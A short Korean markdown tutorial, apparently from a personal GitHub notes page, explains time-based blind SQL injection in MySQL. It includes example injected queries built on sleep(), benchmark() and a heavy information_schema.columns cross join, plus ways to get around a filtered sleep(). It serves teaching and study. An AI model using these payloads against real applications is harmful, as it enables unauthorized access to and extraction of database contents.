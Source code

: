 # time based blind sqli

#### time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

### sleep(10);

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

### benchmark();

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.


### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에 불러오다보니깐

불러오는 과정에서 시간지연이 생기게 되버린다.

![information image](./image/mysql-informaction.png)

밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.



### 마무리

핵심은 저런 함수만 사용이 가능하다는것이 아닌

Time based sql injection 인 만큼

시간 지연 쿼리만 잘 짜서 요청을 하면 된다.